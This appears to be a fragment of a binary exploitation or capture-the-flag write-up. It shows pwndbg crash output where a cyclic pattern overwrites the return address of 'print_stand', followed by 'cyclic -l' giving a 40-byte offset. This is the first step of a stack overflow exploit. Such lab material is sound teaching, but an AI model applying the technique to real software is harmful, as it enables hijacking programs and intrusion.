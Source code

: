 ```bash
*R14  0x7ffff7ffd000 (_rtld_global) —▸ 0x7ffff7ffe2d0 ◂— 0x0
*R15  0x403df0 —▸ 0x401180 ◂— endbr64
*RBP  0x6161616a61616169 ('iaaajaaa')
*RSP  0x7fffffffd8a8 ◂— 0x6161616c6161616b ('kaaalaaa')
*RIP  0x401556 (print_stand+69) ◂— ret
──────────────────────────────────[ DISASM / x86-64 / set emulate on ]───────────────────────────────────
 ► 0x401556 <print_stand+69>    ret    <0x6161616c6161616b>










────────────────────────────────────────────────[ STACK ]────────────────────────────────────────────────
00:0000│ rsp 0x7fffffffd8a8 ◂— 0x6161616c6161616b ('kaaalaaa')
01:0008│     0x7fffffffd8b0 ◂— 0x6161616e6161616d ('maaanaaa')
02:0010│     0x7fffffffd8b8 ◂— 0x616161706161616f ('oaaapaaa')
03:0018│     0x7fffffffd8c0 ◂— 0x6161617261616171 ('qaaaraaa')
04:0020│     0x7fffffffd8c8 ◂— 0x6161617461616173 ('saaataaa')
05:0028│     0x7fffffffd8d0 ◂— 0x6161617661616175 ('uaaavaaa')
06:0030│     0x7fffffffd8d8 ◂— 0x6161617861616177 ('waaaxaaa')
07:0038│     0x7fffffffd8e0 ◂— 0x6261617a61616179 ('yaaazaab')
──────────────────────────────────────────────[ BACKTRACE ]──────────────────────────────────────────────
 ► 0         0x401556 print_stand+69
   1 0x6161616c6161616b
   2 0x6161616e6161616d
   3 0x616161706161616f
   4 0x6161617261616171
   5 0x6161617461616173
   6 0x6161617661616175
   7 0x6161617861616177
───────────────────────────────────────────────────────────────────────────────────────────────────────── 

# We are interested where the function returns so
# *RSP  0x7fffffffd8a8 ◂— 0x6161616c6161616b ('kaaalaaa') <--- Stack Pointer
# *RIP  0x401556 (print_stand+69) ◂— ret
# ──────────────────────────────────[ DISASM / x86-64 / set emulate on # ]───────────────────────────────────
#  ► 0x401556 <print_stand+69>    ret    <0x6161616c6161616b>
└─$ cyclic -l kaaalaaa
40 # Padding/offset found
```
